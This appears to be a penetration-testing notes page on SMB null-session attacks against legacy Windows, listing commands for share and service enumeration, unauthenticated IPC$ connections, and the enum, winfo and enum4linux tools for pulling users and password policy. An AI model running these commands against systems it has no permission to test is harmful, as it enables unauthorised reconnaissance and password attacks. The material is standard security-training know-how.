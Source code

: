 # Null Sessions

### Introduction

**THIS ATTACK ONLY WORKS ON LEGACY WINDOWS SYSTEMS**

These attacks can be used to enumerate

* Passwords
* System Users
* System Groups
* Running System Processes

Null sessions are remotely exploitable, they can be used to call remote apis and remote procedure calls,

***

### Enumerating Windows Shares

#### Service Enumeration using nbtstat (windows)

```
nbtstat -A IP
```

Analyzing Output Codes

* `<00>` means machine is a workstation
* `<UNIQUE>` means only 1 ip is assigned
* `<20>` tells us that file sharing service is up and running on the machine

#### Shares Enumeration using Net View (windows)

```
NET VIEW IP
```

#### Service Enumeration using nmblookup (linux)

```
nmblookup -A IP
```

#### Shares Enumeration using smbclient (linux)

```
smbclient -L //IP -N
```

* \-N forces tool to not ask for password
* This tool also list **administrative shares** that are hidden by using windows tools.

***

### Checking for Null Sessions

We try to connect to `ipc$` administrative share without valid credentials. These don't work with `C$`

#### Windows

```
NET USE \\IP\IPC$ '' /u:''
```

This tells windows to connect with empty password and empty username.

#### Linux

```
smbclient //IP/IPC$ -N
```

***

### Exploiting with [Enum](http://packetstormsecurity.com/search/?q=win32+enum\&s=files) Script

It can be run from windows cmd.

```
enum -S ip
```

\-S lets you enumerate shares of machine, it enumerates admin shares too

```
enum -U ip
```

\-U enumerates the users

```
enum -P ip
```

\-P tells you about the password policy which is useful for password cracking.

***

### Exploiting with [Winfo](http://packetstormsecurity.com/search/?q=winfo\&s=files) Script

It is also a cli script used to automate null session attack

```
winfo ip -n
```

***

### Exploiting with Enum4Linux

It is also used to attack null sessions.

***
